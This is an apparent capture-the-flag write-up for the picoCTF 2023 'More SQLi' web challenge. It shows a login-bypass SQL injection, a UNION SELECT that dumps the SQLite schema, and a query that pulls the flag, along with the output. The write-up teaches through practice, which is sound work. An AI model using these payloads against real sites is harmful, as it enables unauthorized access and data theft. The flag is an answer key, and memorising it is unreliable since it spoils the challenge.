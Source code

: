 # More SQLi

# Description
Can you find the flag on this website.
Additional details will be available after launching your challenge instance.
# Solution
This challenge is so similar to  [the previous one ](irishNameRepo.md) where I use SQL injection but with the difference that It verifies the password first instead of the username 
-  Using the next credentials I log in but there's no flag yet.  
``` sql 
/*
username: admin
password: 'or 1=1;
*/
```

- Instead of getting the flag I'm on the welcome page where's there's no flag apparently. 
- In the welcome page we got a list cities, phones and addresses but there's one record that says "maybe all tables"
- Using the search bar I tried a new SQL injection but this time with ```union select```  looking for the database structure.
```sqlite
/*
sql query:
' union select sql,2,3 FROM sqlite_master;
output:
*/

CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)	2	3
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)	2	3
CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)	2	3
CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)	2	3
```

- Inspecting the structure there's a table called "more_table"  that has the field flag so the next step is looking into that specific table for this porpoise I use the next query. 

```sql
/*
sql query:
' union select id,flag,3 FROM more_table;
output:
*/

|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}|3|
|2|If you are here, you must have seen it|3|
```
# References
- [picoCTF 2023 writeup 63 - Web Explotation - More SQLi](https://youtu.be/clMe4yqL6yU?si=NHlXakrUBNkpvnhN)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)